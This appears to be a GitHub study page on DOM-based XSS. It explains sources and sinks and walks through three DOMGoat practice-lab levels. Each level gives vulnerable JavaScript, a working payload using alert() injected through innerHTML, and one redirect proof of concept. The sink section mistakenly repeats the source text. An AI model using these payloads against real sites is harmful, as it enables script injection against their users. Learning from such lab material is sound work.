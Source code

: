 
# DOM Practice analysis

**Dom are based on two terms: 1- Source, 2- Sink**

## Source:
```
Source is the location from which untrusted data is taken by the application (which can be controlled by user input)
and passed on to the sink. 
There are 4 different categories of sources
```

| URL Based Source |  Navigation Based Source | Communication source | Storage Source |
|------------------|--------------------------|----------------------|----------------|
|	location	   | window.name 			  |   Ajax				 |   Cookies      |
|	location.href  | document.referer		  |   Web Sockets		 |  localStorage  |
|	location.search|						  |  Window Message		 |  SessionStorage|
|location.pathname | 						  |						 |				  |

## Sink:
```
Source is the location from which untrusted data is taken by the application (which can be controlled by user input)
and passed on to the sink. 
There are 4 different categories of sources:
```

| Javascript  Execution Sink    |  HTML Execution Sink |  Javascript URI Sink	|                           	
|-----------------|-----------------|-------------------|
| eval()		  |  innerHTML()    |    location       |
| setTimeout()    |  outerHTML()    |    location.href  |
|  setInterval()  | document.write()| location.replace()|
| Function()	  | 				| location.assign() |


### Here an example for Find vulnerable DOM XSS:

```html
<html>
    <p id="name">Hello<p>
    <script>
        var url = new URL(window.location.href);
        var name = url.searchParams.get("name");
        document.getElementById('name').innerHTML = 'Hello ' + name;
    </script>
</html>
```

**In the above example, you can see that the javaScript is searching a GET parameter called “name” and it’s writing its value dynamically into the DOM using innerHTML. So its vulnerable to DOM xss: `name=<svg/onload=alert(1)>`**

**So here, location.href is the source (where the untrusted data is coming from) while innerHTML is the sink (where the payload actually executed).**

# Let's get to out Practice Lab [DOMGoat]:

## Level 1:

```js
let hash = location.hash;
if (hash.length > 1) {
    let hashValueToUse = unescape(hash.substr(1));
    let msg = "Welcome <b>" + hashValueToUse + "</b>!!";
    document.getElementById("msgboard").innerHTML = msg;
}
```

**sink:** `innerHTML`
**source:** `location.hash`
**Solution:** #<svg/onload=alert(1)>

```
Here the `location.hash` is read and specifically unescaped (since modern browsers by default will urlencode the location.hash to avoid DOM XSS) and inserted into the div using innerHTML.
```


## Level 2:

```js
let rfr = document.referrer;
let paramValue = unescape(getPayloadParamValueFromUrl(rfr));
if (paramValue.length > 0) {
    let msg = "Welcome <b>" + paramValue + "</b>!!";
    document.getElementById("msgboard").innerHTML = msg;
} else {
    document.getElementById("msgboard").innerHTML = "Parameter named <b>payload</b> was not found in the referrer.";
}
```

**sink:**`innerHTML`
**source:**`document.referrer`
**Solution:** `https://domgo.at/cxss/example/1?payload=<svg/onload=alert(1)>` #When you click on Exercise 2: you will get alert

__If you look at the HTML source code, you can see the `getPayloadParamValueFromUrl()` defined which extracts the value of the GET parameter named `payload` after click to exercise 2:__
__The click are required insted of directy browsing to the URL because of th source in this exercise that `document.referrer` property.__
__We see from the vulnerable code that if a parameter called payload is available in the URL of the referrer, then this is extracted and passed to the sink.__

 - For real world poc: You can make a html code that redirect to vulnerable.site
```html
<html>
    <body>
        <h2>PoC for Exercise 2 of https://domgo.at</h2>
        <script>
            window.location="https://domgo.at/cxss/example/2"
        </script>
    </body>
</html>

```
`Save this as exercise2.html and host it locally (nginx/Apache/python/node/anything). Navigate to it using http://127.0.0.1/exercise2.html?payload=<svg%20onload=alert(document.domain)>`

## Level 3:

```js
let responseBody = xhr.responseText;
let responeBodyObject = JSON.parse(responseBody);
let msg = "Welcome <b>" + responeBodyObject.payload + "</b>!!";
document.getElementById("msgboard").innerHTML = msg;
```
 
**Sink:**`innerHTML`
**Source**`Ajax`
**Solution:**`<img src=x onerror=alert(1)>`

__The response from the Ajax request (emulated with the user input) is parsed on the client side and is written directly to DOM with innerHTML.__







































